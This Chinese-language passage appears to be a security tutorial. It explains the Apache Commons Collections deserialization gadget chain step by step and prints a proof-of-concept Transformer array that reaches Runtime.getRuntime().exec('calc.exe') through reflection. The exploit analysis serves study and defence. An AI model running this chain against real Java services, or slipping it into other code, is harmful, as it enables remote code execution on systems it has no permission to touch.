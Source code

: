 这里需要注意的是invoke方法

**invoke**

1. invoke调用普通方法时，传入的必须是实例化后的类
2. invoke调用静态方法时，传入类即可

```java
 public static Runtime getRuntime() {
        return currentRuntime;
    }
```

这里利用调用静态方法getRuntime返回一个实例化后的Runtime，然后传入InvokerTransformer中的transform方法中

**我们看到这一部分的POC**

```java
   Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);
```

其中ConstantTransformer类的transform方法会直接返回构造函数中传入的对象

由于反序列化中是将构造好的单个对象进行序列化发送到后端，我们还需要将两个类串联起来

ChainedTransformer能将实现了Transformer接口的类进行串联，并且依次调用其中的transform方法传递给下一个元素

**接下来解释一下构造的 transformers数组：**

#### constant

```
new ConstantTransformer(Runtime.class)
```

`ConstantTransformer.transform`会直接返回构造函数中传入的Runtime类`（java.lang.Runtime)`，并且作为input传入`InvokerTransformer`的transform方法中

#### Invoker1

```java
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] })
```

利用反射获取`java.lang.Class`中的getMethod方法，然后利用获取到的getMethod方法获取我们传入的Runtime类中的`getRuntime`方法，类型为`Method (java.lang.reflect.Method)`。`ConstantTransforme`r返回的Runtime类作为input传入`InvokerTransformer.transform`方法

由于这里是获取静态方法getRuntime，所以在使用invoke的时候只需要传入类即可
